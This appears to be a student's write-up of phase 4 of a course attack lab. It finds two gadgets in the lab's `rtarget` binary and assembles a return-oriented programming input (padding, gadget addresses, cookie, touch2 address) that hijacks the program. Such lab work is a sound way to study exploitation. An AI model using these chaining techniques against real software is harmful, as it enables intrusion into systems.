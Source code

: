 ### phase 4

This phase is essentially the same as phase 2, but instead of injecting code into the target destination, we are trying to create a gadget to try and inject our code into the `rtarget` program.

To do this, we need a gadget that will pop the the `%rdi` register off the stack. In the instruction manual, it is given that `popq %rdi` is `5f`, which is not found in `rtarget.d` after `objdump -d rtarget > rtarget.d`. So, instead, we will use `popq %rax` as a substitute.

After scanning my dump file, we find:

```
00000000004027b9 <addval_349>:
  4027b9:	f3 0f 1e fa          	endbr64 
  4027bd:	8d 87 c9 58 90 c3    	lea    -0x3c6fa737(%rdi),%eax
  4027c3:	c3                   	ret    
```

`90` will just increment the program counter by 1. `c3` will return.

The next instruction we need is `movq %rax, %rdi` which is specified as: `48 89 c7`.

This can be found in the dump here:

```
00000000004027af <getval_474>:
  4027af:	f3 0f 1e fa          	endbr64 
  4027b3:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
  4027b8:	c3                   	ret   
```

Now we have two gadgets and can exploit the rtarget program.

The exploit we are doing is:

```
popq %rax
movq %rax, %rdi
ret
```

We have all the components, so the next step is to put them all together.

First we need the buffer size (0x28). After formatting that, we need the address of gadget 1.

To find the address of gadget 1, we take `4027bd`, and then add 3 to it because that is where the `58` is located.

```
4027c0
```

To find the address of the second gadget `4027b3`, we do the same thing, but add 1.

```
4027b4
```

Now, we can assemble all of this into a `.txt` file:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 27 40 00 00 00 00 00 /* address of gadget 1 */
bd ef 39 2a 00 00 00 00 /* hex cookie */
b4 27 40 00 00 00 00 00 /* address of gadget 2 */
b1 25 40 00 00 00 00 00 /* address of touch2 */
```
